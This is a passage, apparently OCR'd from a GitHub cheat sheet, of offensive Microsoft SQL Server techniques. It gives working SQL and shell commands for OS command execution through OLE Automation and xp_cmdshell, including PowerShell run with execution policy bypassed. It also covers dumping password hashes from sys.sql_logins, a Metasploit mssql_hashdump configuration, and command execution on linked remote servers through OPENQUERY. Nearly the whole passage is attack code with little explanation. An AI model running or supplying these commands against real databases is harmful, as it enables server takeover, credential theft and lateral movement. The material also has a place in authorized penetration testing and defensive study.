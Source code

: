 #### Alternative Command Execution
```sql
-- Ole Automation Procedures
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;

DECLARE @shell INT;
EXEC sp_oacreate 'wscript.shell', @shell OUTPUT;
EXEC sp_oamethod @shell, 'run', null, 'cmd.exe /c whoami > C:\temp\output.txt';

-- PowerShell execution
EXEC xp_cmdshell 'powershell -exec bypass -c "Get-ComputerInfo"';
```

### Hash Extraction

#### Credential Dumping
```sql
-- Extract password hashes (requires sysadmin)
SELECT name, password_hash FROM sys.sql_logins;

-- Extract to file
SELECT name, password_hash FROM sys.sql_logins 
FOR XML RAW, ELEMENTS;

-- Use xp_cmdshell to save hashes
EXEC xp_cmdshell 'echo hash_data > C:\temp\hashes.txt';
```

#### Metasploit Hash Dumping
```bash
# MSSQL hash dump
use auxiliary/scanner/mssql/mssql_hashdump
set RHOSTS target
set USERNAME sa
set PASSWORD password
run
```

### Database Links

#### Link Discovery
```sql
-- List database links
SELECT * FROM sys.servers;

-- Query remote server
SELECT * FROM OPENQUERY([REMOTE_SERVER], 'SELECT @@servername');

-- Execute commands on remote server
SELECT * FROM OPENQUERY([REMOTE_SERVER], 'EXEC xp_cmdshell ''whoami''');
```
